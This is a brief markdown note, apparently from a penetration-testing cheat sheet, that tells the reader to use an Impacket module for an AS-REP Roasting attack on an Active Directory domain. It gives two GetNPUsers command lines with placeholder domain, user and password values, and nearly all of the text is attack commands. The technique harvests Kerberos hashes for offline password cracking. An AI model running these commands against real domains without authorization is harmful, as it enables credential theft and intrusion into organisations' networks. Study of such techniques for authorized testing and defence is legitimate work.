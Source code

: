 ## Use this impacket module to perform an ASREP-Roasting attack

#### 1) Impacket-GetNPUsers DOMAIN.COM/USERNAME -no-pass -k

#### 2) Impacket-GetNPUsers DOMAIN.COM/USERNAME:PASSWORD
